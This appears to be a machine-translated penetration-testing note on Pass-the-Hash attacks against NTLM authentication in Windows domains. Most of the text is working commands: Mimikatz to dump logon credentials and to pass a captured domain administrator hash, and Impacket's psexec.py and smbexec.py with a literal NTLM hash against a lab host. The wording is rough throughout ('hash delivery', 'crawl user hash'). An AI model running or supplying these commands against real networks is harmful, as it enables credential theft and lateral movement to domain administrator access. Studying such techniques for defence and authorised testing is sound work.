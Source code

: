 # Hash delivery attack

Hash pass (`Pass The Hash`, `PTH`) is an attack technology against the NTLM protocol. When generating Response in the third step of NTLM identity authentication, the client directly uses the user's NTLM` hash value to calculate, and the user's plaintext password does not participate in the entire authentication process, that is, in the `Windows` system, only the user hash value is used to authenticate the user accessing the resource.

In a domain environment, users generally use a domain account when logging into the computer, and most computers may use the same local administrator account and password when installed. Therefore, hashing pass in the domain environment can often obtain intranet host permissions in batches.

## Utilization of hash delivery attacks

### Mimikatz

Mimikatz hash delivery function built-in, requiring local administrator permissions.

```powershell
# Crawl user hash
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
```

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%208.png)

```powershell
# Use the crawled domain administrator's NTLM HASH for hashing
# A new command line window will pop up when the successful execution is performed. The domain administrator privileges can be accessed in the new command line.
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /domain:hack.local /ntlm:96b26b0744352a9d91516132c3fe485d" exit
```

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%209.png)

###Impacket

Several scripts in the Impacket project that have remote command execution function can basically perform `PTH` attacks, the common ones include `psexec.py`, `smbexec.py` and `wmiexec.py`.

```bash
# psexec.py
python3 psexec.py -hashes :96b26b0744352a9d91516132c3fe485d hack/administrator@10.10.10.137
```

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%2010.png)

```bash
# smbexec.py
python3 smbexec.py -hashes:96b26b0744352a9d91516132c3fe485d hack/administrator@10.10.10.137
```

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%2011.png)
